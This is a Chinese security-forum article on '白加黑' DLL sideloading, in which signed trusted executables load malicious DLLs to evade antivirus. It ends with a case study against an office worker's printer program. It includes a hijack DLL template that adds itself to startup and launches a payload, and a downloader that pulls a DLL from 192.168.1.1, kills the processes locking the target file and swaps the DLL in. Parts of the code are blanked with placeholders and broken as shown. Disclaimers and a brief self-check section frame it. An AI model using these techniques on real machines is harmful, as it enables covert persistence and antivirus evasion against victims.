






# 深入理解白加黑-先知社区

> **来源**: https://xz.aliyun.com/news/17310  
> **文章ID**: 17310

---

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

# 一·白加黑技术介绍

白加黑技术是一种网络安全领域的攻击手段，主要用于绕过杀毒软件的检测并实现恶意代码执行。其核心原理是通过将恶意代码（黑）与可信程序（白）结合，利用系统动态链接库（DLL）加载机制实现隐蔽攻击。以下是具体解析：

### 1. **基本概念**

* **白文件**：指具有合法数字签名或被杀毒软件标记为可信的可执行文件（如.exe程序），通常为系统工具或常见软件。
* **黑文件**：指攻击者自定义的恶意代码，通常以DLL文件形式存在，包含Shellcode、反弹Shell等恶意功能。
* **白加黑组合**：通过白文件加载黑DLL，使恶意代码在白文件执行时被触发，从而绕过杀软对黑文件的查杀。

### 2. **攻击机制**

* **DLL劫持**：Windows系统在加载DLL时，会优先搜索程序所在目录。攻击者将恶意DLL放置于白文件目录下，当白文件运行时，系统会优先加载恶意DLL而非系统原版DLL。
* **动态加载**：通过`LoadLibrary`等API函数显式加载恶意DLL，或修改白文件的导入表（IAT），使其在运行时调用黑DLL。
* **无文件落地**：部分攻击直接将恶意代码编译为Shellcode，通过白文件内存加载执行，避免生成独立文件。

### 3. **攻击目的**

* **权限提升**：执行命令（如创建管理员账户）。
* **持久化控制**：通过注册表或启动项实现自启动。
* **敏感数据窃取**：结合后续攻击获取系统权限。

### 4. **防御措施**

* **限制目录权限**：确保软件仅安装在受保护的目录（如`C:\Program Files`），避免普通用户写入恶意DLL。
* **增强杀软检测**：通过行为分析识别异常DLL加载行为，而非仅依赖静态签名。
* **修复已知漏洞**：及时更新系统补丁，防止利用已知DLL劫持路径的攻击。

### 5. **技术演变**

随着杀软对抗升级，白加黑技术呈现以下趋势：

* **动态化**：结合进程注入、代码混淆等手段降低检测概率。
* **场景化**：针对特定软件（如Steam、浏览器）定制白文件，提高成功率。
* **长期化**：通过重启断链、隐蔽加载等方式规避行为监控。

​

# 二·应用场景：

### 1. **绕过杀毒软件动态检测**

通过将恶意代码（黑文件）与合法程序（白文件）结合，利用系统DLL加载机制或数字签名欺骗杀软。例如：

* 使用腾讯游戏加速器的白文件加载恶意DLL，通过DLL劫持实现无文件攻击。
* 为Veil生成的恶意程序添加腾讯视频等可信应用的数字签名，降低在线/本地查杀率。

### 2. **权限维持与持久化控制**

* **DLL劫持+APC注入**：在合法进程（如网易云音乐）加载时注入恶意DLL，通过`Early Bird APC`技术实现隐蔽进程接管，规避杀软钩子检测。
* **隐写术结合DLL**：将加密的Shellcode存入图片文件，通过DLL动态加载机制从图片中读取并执行，实现无文件落地攻击。

### 3. **对抗现代杀软静态分析**

* **静态特征规避**：通过修改恶意DLL的导出函数、删除冗余代码、调整编译标准（如禁用C++17特性）等方式，逃逸基于静态签名的查杀。
* **函数劫持伪装**：使用`Aheadlib`工具生成DLL函数模拟代码，覆盖原函数入口实现无特征调用。

### 4. **场景化攻击定制**

* **针对性白文件选择**：优先选择存在未校验DLL依赖或弱签名校验的软件（如部分国产工具、游戏加速器），降低攻击复杂度。
* **多平台适配**：针对32/64位系统分别编译恶意DLL，结合`CreateProcessA`和调试挂起技术实现跨平台注入。

### 典型攻击流程示例

1. **选择白文件**：如`cloudmusic_reporter.exe`（缺失`libcurl.dll`）或游戏加速器主程序。
2. **生成/改造黑文件**：用Veil生成Shellcode，或通过`Aheadlib`生成函数劫持DLL。
3. **植入与加载**：将恶意文件放置于白文件目录，或通过APC注入技术触发加载。
4. **免杀强化**：添加数字签名、代码混淆或隐写存储，提升存活率。

# 三·常用工具

## 灰梭子

### 1. **核心功能**

* **手动化扫描**：测试断点+dll劫持



操作：简易手动断点找dll，然后拖入x64 dll劫持完整asm+cpp

​

**注意**：该工具需在合法授权范围内使用，禁止用于非法渗透测试或攻击活动。

## Zeroeye

### 1. **核心功能**

* **自动化扫描**：通过遍历指定目录或分析单个文件，提取EXE的导入表，筛选出非系统DLL文件。
* **白文件挖掘**：将符合条件的文件分类存储至`binX64`或`binX86`目录，并生成`Infos.txt`记录DLL信息，支持虚拟机环境批量扫描。
* **扩展功能**：支持数字签名校验、生成DLL劫持模板，结合灰梭子等工具实现免杀攻击流程化。

### 2. **技术特性**

* **性能优化**：使用C++替代Python脚本，提升扫描速度（如200G数据扫描仅需2分11秒）。
* **多平台适配**：提供x64/x86双版本可执行文件，兼容不同系统环境。

### 3. **获取方式**

* **开源地址**：  
  GitHub仓库：<https://github.com/ImCoriander/ZeroEye>​

**注意**：该工具需在合法授权范围内使用，禁止用于非法渗透测试或攻击活动。

## IDA

### 1. **恶意DLL函数定位与分析**

通过IDA加载目标DLL文件，利用其反汇编功能快速定位关键函数入口。

### 2. **代码逻辑与行为验证**

IDA的图形化界面和交叉引用功能可帮助研究人员理解DLL的运行流程。例如，通过分析函数调用关系，识别出DLL与系统API（如注册表操作函数）的交互点，从而针对性地修改代码逻辑以实现免杀目的（如绕过杀软对注册表修改的检测）。

### 3. **测试DLL的动态调试支持**

在编写测试DLL（如网页中新建的`testdll.dll`）时，IDA可与调试器（如x64dbg）配合使用，实时监控DLL加载过程和函数执行结果。例如，通过设置断点观察`DllMain`函数的触发时机，验证劫持逻辑是否生效。

### 4. **免杀对抗特征规避**

利用IDA的代码修改功能，对恶意代码进行混淆或加密处理。例如，将Shellcode嵌入DLL资源节，或通过函数名重命名、控制流平坦化等技术降低静态特征匹配概率，从而绕过杀毒软件的检测。

## 零攻防dll模板



# 四·个人理解

我认为，白加黑不应该用于任何形式的第一次上线操作（即将shellcode loader写入Black dll），这样会导致dll存活期短，而且不容易做到单文件（因为各大查杀工具对下载者查杀很严），而是应该用于权限提升或权限维持，有一个误区就是黑dll不一定非要写启动行为，可以试试对症下药的措施，具体见下一个小节

# 五·案例1

目标为一个办公人员，经常使用打印机，现在获得user权限，操作如下：

## 1.确认劫持对象

在windows系统文件中找到打印机程序，猜测存在dll执行，手动测试



发现对象Printdialog.dll疑似存在劫持

## 2.IDA确认

·1 将dll导入IDA



发现有一堆函数，我们添加dll关键词进行筛选，得到如下结果



函数：

```
-DllCanUnloadNow：
    ‌DllCanUnloadNow函数的主要作用是确定一个DLL是否可以被卸载。
‌当你在使用COM（Component Object Model）技术时，可能会动态加载一些DLL（动态链接库）。
这些DLL在完成其任务后，需要被安全地从内存中卸载，以避免资源泄露。DllCanUnloadNow函数就是用来检查当前是否还有对象在使用这个DLL，
如果没有，则可以将DLL从内存中卸载。
```

```
-DllEntryPoint：
    ‌DllEntryPoint函数‌是动态链接库（DLL）中的一个入口点函数，
用于在DLL被加载或卸载时执行特定的初始化或清理操作。如果DLL定义了入口点函数，
每当进程加载或卸载DLL时，系统会调用这个函数，从而执行一些简单的初始化和清理任务
```

​

## 3.导入灰梭子，劫持

```
#include <windows.h> // 包含Windows API的头文件

// 指定链接器选项，导出DLL中的函数名称
#pragma comment(linker, "/EXPORT:DllCanUnloadNow=LGF_DllCanUnloadNow,@1")
#pragma comment(linker, "/EXPORT:DllGetActivationFactory=LGF_DllGetActivationFactory,@2")

// 使用extern "C"来防止C++编译器对名称进行修改，以便于C语言链接
extern "C" {
	PVOID pLGF_DllCanUnloadNow;        // 指向LGF_DllCanUnloadNow函数的指针
	PVOID pLGF_DllGetActivationFactory; // 指向LGF_DllGetActivationFactory函数的指针
	void LGF_DllCanUnloadNow(void);           // 声明LGF_DllCanUnloadNow函数
	void LGF_DllGetActivationFactory(void);   // 声明LGF_DllGetActivationFactory函数
};
// 声明一个全局静态变量，用于存储原始模块句柄
static HMODULE	g_OldModule = NULL;

// 加载原始模块
__inline BOOL WINAPI Load()
{
	//加载动态链接库
	return (g_OldModule != NULL); // 返回加载结果
}

// 释放原始模块
__inline VOID WINAPI Free()
{
	if (g_OldModule) // 如果原始模块已加载
	{
		FreeLibrary(g_OldModule); // 释放模块
	}
}

// 获取原始函数地址
FARPROC WINAPI GetAddress(PCSTR pszProcName)
{
	// 定义一个指针，用于存储函数地址
	// 获取指定函数的地址
	if (fpAddress == NULL) // 检查获取是否成功
	{
		MessageBoxA(NULL, "Error", "Error", MB_ICONSTOP); // 弹出错误信息
	}
	return fpAddress; // 返回函数地址
}

// 初始化获取原函数地址
BOOL WINAPI Init()
{
	// 获取两个函数的地址并存储到对应的指针中
	if (NULL == (X)))
		return FALSE; // 如果获取失败，返回FALSE
	if (NULL == (X)))
		return FALSE; // 如果获取失败，返回FALSE

	return TRUE; // 成功返回TRUE
}

#include <windows.h> // 再次包含Windows API头文件
#include <cstdio> // 添加此头文件以使用snprintf
#include <Shlwapi.h> // 添加此头文件以使用PathRemoveFileSpecA
#pragma comment(lib, "Shlwapi.lib") // 链接Shlwapi库

// 声明外部定义的函数
BOOL Load(); // 声明Load函数
BOOL Init(); // 声明Init函数
void Free(); // 声明Free函数

// 在同一目录下启动指定程序的函数
void LaunchProgramInSameDirectory()
{
    CHAR X[MAX_PATH]; // 存储当前模块路径的字符串
    CHAR X[MAX_PATH]; // 存储要启动的程序路径的字符串
    X(NULL, modulePath, MAX_PATH); // 获取当前模块的完整路径

    // 获取当前模块目录路径，移除模块名
    PathRemoveFileSpecA(modulePath);

    // 指定要启动的程序名（例如 "c.exe"）
    _snprintf_s(programPath, MAX_PATH, "%s\c.exe", modulePath); // 拼接完整的程序路径

    // 设置进程启动信息
    STARTUPINFOA si = { sizeof(si) }; // 初始化STARTUPINFOA结构体
    PROCESS_INFORMATION pi; // 存储进程信息的结构体

    // 创建进程
    if (!X(programPath, NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
    {
        // 如果创建失败，处理错误
        DWORD error = GetLastError(); // 获取最后一个错误代码
        // 可选：记录或显示错误信息
    }
    else
    {
        // 关闭新进程及其主线程的句柄
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

// 添加DLL自身到启动项的函数
XXxxxxx

// DLL主入口点
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH) // 如果是进程附加
    {
        DisableThreadLibraryCalls(hModule); // 禁用线程库调用，以提高性能

        if (Load() && Init()) // 尝试加载模块和初始化
        {
            AddDllToStartup(); // 将DLL自身添加到启动项
            LaunchProgramInSameDirectory(); // 启动指定程序
            return TRUE; // 返回TRUE表示成功
        }
        else
        {
            return FALSE; // 加载或初始化失败，返回FALSE
        }
    }
    else if (dwReason == DLL_PROCESS_DETACH) // 如果是进程分离
    {
        Free(); // 释放资源
    }
    return TRUE; // 默认返回TRUE
}
```

## 4.测试+利用



运行成功，写代码批量修改dll

以下是实现该功能的C++代码及详细解释，结合了文件操作、网络请求和进程管理技术：

```
#include <windows.h>
#include <wininet.h>
#include <iostream>
#include <string>
#include <tlhelp32.h>

// 判断文件是否被占用（引用自）
bool IsFileInUse(const std::wstring& filePath) {
    HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        return GetLastError() == ERROR_SHARING_VIOLATION;
    }
    CloseHandle(hFile);
    return false;
}

// 结束占用文件的进程（引用自）
void KillProcessUsingFile(const std::wstring& filePath) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) return;

    PROCESSENTRY32W pe;
    pe.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe)) {
        do {
            HANDLE hProcess = OpenProcess(PROCESS_TERMINATE | PROCESS_QUERY_INFORMATION, FALSE, pe.th32ProcessID);
            if (hProcess) {
                HANDLE hMods[1024], cbNeeded;
                if (EnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded)) {
                    for (unsigned int i = 0; i < (cbNeeded / sizeof(HMODULE)); i++) {
                        WCHAR szModName[MAX_PATH];
                        GetModuleFileNameExW(hProcess, hMods[i], szModName, MAX_PATH);
                        if (wcscmp(szModName, filePath.c_str()) == 0) {
                            TerminateProcess(hProcess, 1);
                            std::wcout << L"已结束进程：" << pe.szExeFile << std::endl;
                            break;
                        }
                    }
                }
                CloseHandle(hProcess);
            }
        } while (Process32NextW(hSnapshot, &pe));
    }
    CloseHandle(hSnapshot);
}

// 下载文件（使用WinINet库）
bool DownloadFile(const std::wstring& url, const std::wstring& filePath) {
    HINTERNET hInternet = InternetOpenW(L"Downloader", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) return false;

    HINTERNET hUrl = InternetOpenUrlW(hInternet, url.c_str(), NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (!hUrl) {
        InternetCloseHandle(hInternet);
        return false;
    }

    HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        InternetCloseHandle(hUrl);
        InternetCloseHandle(hInternet);
        return false;
    }

    char buffer[4096];
    DWORD bytesRead, bytesWritten;
    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        WriteFile(hFile, buffer, bytesRead, &bytesWritten, NULL);
    }

    CloseHandle(hFile);
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);
    return true;
}

int main() {
    std::wstring srcUrl = L"http://192.168.1.1/ffmpeg.dll";
    std::wstring destPath = L"D:\ffmpeg.dll";
    std::wstring backupPath = L"D:\apihelper.dll";

    // 下载文件
    if (XX)) {
        std::wcerr << L"下载失败！" << std::endl;
        return 1;
    }

    // 检查文件是否被占用
    while (XX)) {
        std::wcout << L"文件被占用，正在尝试结束进程..." << std::endl;
        Sleep(1000);
    }

    // 结束占用进程（增强版，引用自）
    KillProcessUsingFile(destPath);

    // 重命名文件
    if (!XX())) {
        std::wcerr << L"重命名失败！错误码：" << GetLastError() << std::endl;
        return 1;
    }

    std::wcout << L"操作完成！" << std::endl;
    return 0;
}
```

## 5.效果预测

在对症下药的策略下，使得dll无启动等高危行为实现"自启"，即用户每次使用打印机都会上线，缺点是多次上线，需要添加互斥体

​

## 6.如何自查

### 定期查注册表，启动项

### 检查文件hash或者签名

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。
